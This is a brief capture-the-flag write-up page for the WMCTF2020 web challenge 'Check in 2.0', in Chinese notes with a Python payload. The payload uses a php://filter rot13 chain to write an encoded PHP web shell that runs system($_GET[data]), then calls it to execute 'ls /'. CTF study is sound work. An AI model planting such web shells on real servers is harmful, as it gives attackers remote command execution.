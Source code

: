 title:: CTF/WP/WMCTF2020 Web Check in 2.0

-
tags:: CTF/伪协议

- # 思路
	- 官方题解新姿势： ((64673efa-c544-4ad7-9b9b-920b148d0b26))
	- 其他思路：可以使用zlib压缩，然后string.tolower破坏字节流，然后再解压
- # payload生成
	- ```python
	  filename = random_chars()[:5] + ".php"
	  r = base_get(url, params = {
	    "content": "php://filter/" + enc_dec.full_urlencode("string.rot13") + "|" + enc_dec.urldecode("%3C%3Fcuc%0Aflfgrz%28%24_TRG%5Bqngn%5D%29%3B%0A%3F%3E") + "/resource=" + filename
	  }, acceptable_code=None)
	  r = base_get(url + "sandbox/f9e1016a5cec370aae6a18d438dabfa5/" + filename, params = {
	    "data": "ls /"
	  }, acceptable_code=[200, 500])
	  print(r.status_code)
	  print(r.text)
	  ```